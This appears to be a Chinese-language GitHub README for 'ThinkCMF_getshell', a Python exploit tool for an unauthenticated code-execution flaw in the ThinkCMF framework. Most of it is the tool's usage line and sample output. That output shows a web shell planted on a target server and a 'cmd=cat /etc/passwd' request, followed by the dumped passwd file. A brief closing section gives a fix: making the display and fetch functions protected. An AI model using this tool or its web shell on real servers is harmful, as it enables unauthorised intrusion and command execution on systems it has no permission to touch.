


# ThinkCMF_getshell 框架上的任意内容包含漏洞

远程攻击者在无需任何权限情况下，通过构造特定的请求包即可在远程服务器上执行任意代码。




## python usage:

`[+] python ThinkCMF_getshell.py http://x.x.x.x/`

```
python ThinkCMF_getshell.py https://x.x.x.x/
nginx
PHP/7.0.19

>>>>>>>Shell url:
https://x.x.x.x/0a30e0d61182dbb7c1eed5135787fb84.php?cmd=cat /etc/passwd


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:997:User for polkitd:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
saslauth:x:997:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
www:x:1000:1000::/home/www:/sbin/nologin
mysql:x:1001:1001::/home/mysql:/sbin/nologin

```
## 修复方法
将 
`HomebaseController.class.php` 和 `AdminbaseController.class.php` 类中 `display` 和 `fetch` 函数的修饰符改为 `protected`
